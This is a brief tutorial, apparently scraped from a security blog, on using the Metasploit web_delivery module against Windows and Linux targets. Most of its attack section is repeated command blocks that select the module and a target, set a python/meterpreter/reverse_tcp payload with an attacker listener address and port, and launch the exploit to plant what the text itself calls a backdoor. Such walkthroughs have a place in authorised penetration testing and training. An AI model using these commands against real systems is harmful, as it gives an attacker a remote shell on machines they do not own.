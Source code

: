 ![](https://blogger.googleusercontent.com/img/a/AVvXsEj87XLeoACl8qdOc3c8m50xYhbRYlxCpgu5NF3niWxgaPv0dJ7_7rAIyThW2c18t5bIAL5AXXvhaC2wWFoejcuZYb8flGMTOPOB_CbzgGWRMGJx7U-gZLM6slWetV_St7YjmqU_Aws_cICvH7tKhM_YiZVOBPp9rpUp6T7EmaaQQcoRGXvMqjeTumX2cA=s16000)

### Web_Delivery

This exploit makes use of the Metasploit Framework, and the operating systems targeted are Windows and Linux. This attack makes use of a payload.

**Payload:**

Payloads are malicious scripts that an attacker uses to interact with a target machine to achieve the attack. In Metasploit, the payload files are stored in modules.

**Executable Payload:**

Users should launch the Metasploit framework and search for **“web delivery**.” We will be given two payload options and must choose the one that contains a web delivery script.

make use of

exploit/multi/script/web delivery

exploit/multi/script/web delivery

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
exploit/multi/script/web delivery
</pre>

Start looking for targets using **“show targets**,” so we see nearly 5 targets that help generate code so that a backdoor is created. Then select the second target and use the command

 set target 2

 set target 2

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
 set target 2
</pre>

and use the commands below to set the payload and the lhost, lport, and then exploit it.

set payload python/meterpreter/reverse_tcp

set lhost 192.168.1.13

set lport 8888

exploit

set payload python/meterpreter/reverse_tcp
set lhost 192.168.1.13
set lport 8888
exploit

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
set payload python/meterpreter/reverse_tcp
set lhost 192.168.1.13
set lport 8888
exploit
</pre>
